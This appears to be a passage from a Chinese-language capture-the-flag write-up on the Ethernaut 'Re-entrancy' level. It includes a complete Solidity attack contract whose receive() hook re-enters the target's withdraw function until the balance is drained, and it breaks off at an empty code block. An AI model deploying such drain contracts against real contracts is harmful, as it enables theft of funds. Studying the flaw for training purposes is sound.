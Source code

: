 ```solidity
        require(balances[msg.sender] >= amount, "Insufficient balance");

        // 先减少余额，再转账
        balances[msg.sender] -= amount;
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
    }

    // 查看账户余额
    function getBalance() external view returns (uint256) {
        return balances[msg.sender];
    }
}
```

## 10. Re-entrancy ✅ [Medium]

这关主要考察对re-entrancy的理解：
- 重入攻击是指攻击者利用合约的漏洞，在合约执行过程中多次调用某个函数，从而获取更多的利益。
- 攻击者可以利用重入攻击来获取合约的控制权

攻击步骤：
1. 编写攻击合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Reentrance.sol";

contract ReentranceAttack {
    Reentrance public target;
    address public owner;

    constructor(address payable _target) public {
        target = Reentrance(_target);
        owner = msg.sender;
    }

    // 调用目标合约的 donate 函数
    function donate() public payable {
        target.donate{value: msg.value}(address(this));
    }

    // 发起攻击
    function attack(uint256 _amount) public {
        target.withdraw(_amount);
    }

    // 重入逻辑
    receive() external payable {
        if (address(target).balance > 0) {
            target.withdraw(msg.value);
        }
    }

    // 提取攻击合约中的以太币
    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        payable(owner).transfer(address(this).balance);
    }
}
```
2. 调用 `donate()` 函数，将合约的余额发送给攻击合约
```js
```